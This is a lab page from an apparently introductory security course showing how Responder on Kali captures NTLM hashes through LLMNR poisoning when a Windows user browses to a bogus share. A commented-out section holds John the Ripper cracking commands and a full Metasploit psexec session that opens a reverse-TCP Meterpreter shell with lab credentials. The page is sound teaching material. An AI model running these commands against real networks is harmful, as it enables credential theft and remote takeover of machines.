 # Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a **weak** password.

Specifically, we are looking to take advantage of **"LLMNR"**.  

We will need to load our terminal and start responder.

Let's get started by opening a **Kali** terminal.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let’s become root:

<pre>sudo su -</pre>

Before we start, we need to remove the existing **Responder** database. Do so by running the following:

<pre>rm /usr/share/responder/Responder.db</pre>

Now let’s start **Responder**:

<pre>responder -I eth0</pre>

You should see this:

![](attachments/responderrunning.png)

Let's open **Windows File Explorer** and put in the string **"\\Noooo"** into the address bar at the top.

![](attachments/OpeningFileExplorer.png)

![](attachments/noooaccessbar.png)

Switch back to your **Kali** terminal window.

After a few moments, you should see some captured data showing up.  

**Please note there may be an error.  That is OK.**

![](attachments/captureddata.png)





***                                                                 
<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/RITAIntroClass/RITA.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---



<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

</pre>cd /opt/Responder/logs</pre>

Once there, we will need to start John The Ripper"

</pre>/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt</pre>
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

</pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!
*/
-->


